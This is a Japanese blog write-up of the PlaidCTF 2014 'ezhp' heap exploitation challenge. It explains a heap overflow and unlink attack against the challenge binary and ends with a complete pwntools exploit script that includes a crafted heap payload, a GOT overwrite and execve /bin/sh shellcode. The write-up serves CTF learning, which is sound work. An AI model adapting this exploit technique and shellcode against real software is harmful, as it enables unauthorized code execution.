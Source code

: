 ```yaml
---
layout: post
alias: "/blog/2016/08/17/plaidctf-2014-ezhp/"
date: "2016-08-17T00:43:10+09:00"
title: "PlaidCTF 2014 ezhp"
tags: [ "writeup", "ctf", "pwn", "heap", "plaidctf" ]
"target_url": [ "https://github.com/ctfs/write-ups-2014/tree/master/plaid-ctf-2014/ezhp" ]
---
```


heap問のrevは疲れる。
キャンプの夜の短い自由時間に挑んだのだが、それで解くのは私には厳しかったので後から時間で殴った。

## solution

heap上の単なる文字列として表現されるノートを作成/修正/削除/表示できるプログラム。
簡易な独自実装heapを持ち、heap上buffer overflowの脆弱性がある。
ノートの修正でbuffer overflowさせ、ノートの削除でheap unlink attackして適当にどこかを書き換え、GOT overwriteなりでshellcodeを踏めばよい。


strippedなのでrevする。
問題となるのは`0x8048708 <myfree>`だけであるので、`0x804858b <myalloc>`の側はあまり読まなくてよい。
簡易な実装ではあるが双方向連結listの操作は通常通りであり、

``` c
    if (bk) bk->fd = fd;
    if (fd) fd->bk = bk;
```

は(chunkの大きさによらず)行われているので、これを用いて適当な領域への書き込みを行う。
global変数として存在するノートの配列`char *g_notes[]`あたりを書き換えてしまえば、あとはノートの修正部分で楽にshellが取れる。RELROもNX bitもない。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

g_notes  = 0x804a060 # char *g_notes[]
puts_got = 0x804a008

# http://shell-storm.org/shellcode/files/shellcode-811.php
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

p = process('./ezhp')

def add_note(size):
    p.recvuntil('Please choose an option.')
    p.sendline('1') # add a note
    p.recvuntil('Please give me a size.')
    p.sendline(str(size))

def remove_note(id):
    p.recvuntil('Please choose an option.')
    p.sendline('2') # remove a note
    p.recvuntil('Please give me an id.')
    p.sendline(str(id))

def change_note(id, data):
    p.recvuntil('Please choose an option.')
    p.sendline('3') # change a note
    p.recvuntil('Please give me an id.')
    p.sendline(str(id))
    p.recvuntil('Please give me a size.')
    p.sendline(str(len(data)))
    p.recvuntil('Please input your data.')
    p.send(data)

# make notes
add_note(11) # 0
add_note(11) # 1
add_note(11) # 2

# send payload to heap
payload = ''
payload += 'AAAA' # heap + 0x18
payload += 'AAAA'
payload += 'AAA\0'
payload += p32(0x19)
payload += p32(0xaaaaaaaa) # p32(heap + 0x3c)
payload += p32(0xbbbbbbbb) # p32(heap + 0x0c)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0x19)
payload += p32(g_notes) # p32(heap + 0x54)
payload += p32(g_notes - 4) # p32(heap + 0x24)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0x3b8)
payload += p32(0)
payload += p32(0xcccccccc) # p32(heap + 0x3c)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0)
change_note(0, payload)

# write &g_notes[0] into g_notes[0]
remove_note(2)

# rewrite g_notes entries
payload = ''
payload += p32(g_notes)
payload += p32(puts_got)
payload += shellcode
change_note(0, payload)

# jump to the shellcode
change_note(1, p32(g_notes + 8))

time.sleep(1)
p.sendline('id')
p.interactive()
```
